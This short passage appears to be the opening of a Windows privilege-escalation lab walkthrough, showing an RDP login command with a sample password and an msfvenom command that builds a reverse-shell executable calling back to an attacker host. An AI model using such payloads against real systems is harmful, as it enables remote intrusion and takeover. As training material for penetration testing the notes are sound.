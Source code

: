 # Windows Privesc

### Connecting with RDP Port 3389

```text
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.34.38
```

Generate a reverse shell executable \(reverse.exe\) using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```



